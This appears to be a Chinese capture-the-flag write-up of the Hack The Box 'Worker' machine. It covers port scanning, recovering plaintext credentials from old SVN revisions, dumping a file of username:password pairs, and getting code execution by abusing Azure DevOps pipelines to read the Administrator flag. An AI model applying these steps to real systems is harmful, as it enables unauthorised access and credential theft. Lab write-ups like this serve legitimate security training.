



# README

## 信息收集

### nmap

```shell
sudo nmap -p-  --min-rate 10000 10.10.10.203
Password:
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-09 15:10 CST
Nmap scan report for 10.10.10.203
Host is up (0.30s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
3690/tcp open  svn
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 14.03 seconds
```

```shell
sudo nmap -p 80,3690,5985 -sC -sV 10.10.10.203
Password:
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-09 15:32 CST
Nmap scan report for 10.10.10.203
Host is up (0.29s latency).

PORT     STATE SERVICE  VERSION
80/tcp   open  http     Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
3690/tcp open  svnserve Subversion
5985/tcp open  http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.35 seconds

```


## Svn

下载svn服务器上的文件：

```shell
svn checkout svn://10.10.10.203
```

只有一些静态文件，move.txt提示了另外一个域名，进入后发现要密码。

index.html里面列出了许多的新域名，访问后也都是一堆静态。

查看版本更迭：

```shell
svn log
------------------------------------------------------------------------
r5 | nathen | 2020-06-20 21:52:00 +0800 (六, 2020-06-20) | 1 行

Added note that repo has been migrated
------------------------------------------------------------------------
r4 | nathen | 2020-06-20 21:50:20 +0800 (六, 2020-06-20) | 1 行

Moving this repo to our new devops server which will handle the deployment for us
------------------------------------------------------------------------
r3 | nathen | 2020-06-20 21:46:19 +0800 (六, 2020-06-20) | 1 行

-
------------------------------------------------------------------------
r2 | nathen | 2020-06-20 21:45:16 +0800 (六, 2020-06-20) | 1 行

Added deployment script
------------------------------------------------------------------------
r1 | nathen | 2020-06-20 21:43:43 +0800 (六, 2020-06-20) | 1 行

First version
------------------------------------------------------------------------

```

回溯到r2版本，发现有个ps1脚本：

```shell
svn up -r2
正在升级 '.':
A    deploy.ps1
更新到版本 2。
```


```ps1
$user = "nathen" 
$plain = "wendel98"
$pwd = ($plain | ConvertTo-SecureString)
$Credential = New-Object System.Management.Automation.PSCredential $user, $pwd
$args = "Copy-Site.ps1"
Start-Process powershell.exe -Credential $Credential -ArgumentList ("-file $args")
```

获得了一对用户名密码，nathen:wendel98拿这个去登录http://devops.worker.htb/可以成功登录，是一个Azure DevOps。


尝试直接往网站下面上传文件发现没有权限，因此创建一个新的分支然后在pipelines那里对新分支构建队列任务：



完成后rce：




## iis shell

翻找目录，找到了w:\svnrepos\www\conf\passwd

```shell
### This file is an example password file for svnserve.
### Its format is similar to that of svnserve.conf. As shown in the
### example below it contains one section labelled [users].
### The name and password for each user follow, one account per line.

[users]
nathen = wendel98
nichin = fqerfqerf
nichin = asifhiefh
noahip = player
nuahip = wkjdnw
oakhol = bxwdjhcue
owehol = supersecret
paihol = painfulcode
parhol = gitcommit
pathop = iliketomoveit
pauhor = nowayjose
payhos = icanjive
perhou = elvisisalive
peyhou = ineedvacation
phihou = pokemon
quehub = pickme
quihud = kindasecure
rachul = guesswho
raehun = idontknow
ramhun = thisis
ranhut = getting
rebhyd = rediculous
reeinc = iagree
reeing = tosomepoint
reiing = isthisenough
renipr = dummy
rhiire = users
riairv = canyou
ricisa = seewhich
robish = onesare
robisl = wolves11
robive = andwhich
ronkay = onesare
rubkei = the
rupkel = sheeps
ryakel = imtired
sabken = drjones
samken = aqua
sapket = hamburger
sarkil = friday
```

查找users目录：

```
2020-07-07  17:53    <DIR>          .
2020-07-07  17:53    <DIR>          ..
2020-03-28  15:59    <DIR>          .NET v4.5
2020-03-28  15:59    <DIR>          .NET v4.5 Classic
2020-08-18  00:33    <DIR>          Administrator
2020-03-28  15:01    <DIR>          Public
2020-07-22  01:11    <DIR>          restorer
2020-07-08  19:22    <DIR>          robisl
```

发现有robisl和restorer用户。

得到了robisl:wolves11

拿`net user robisl`查询，发现他确实在Remote Management Use组

## robisl用户

robisl用户同样可以登上Azure DevOps，且之前查到了一个pipeline的yaml：

```shell
# Starter pipeline
# Start with a minimal pipeline that you can customize to build and deploy your code.
# Add steps that build, run tests, deploy, and more:
# https://aka.ms/yaml

# This is for htb Worker Box :)

trigger:
- master

pool: 'Setup'

steps:
- powershell: type C:\Users\Administrator\Desktop\root.txt
  displayName: 'Privesc'

```

因此创建新分支并拿这个yaml创建新pipeline即可拿到flag：

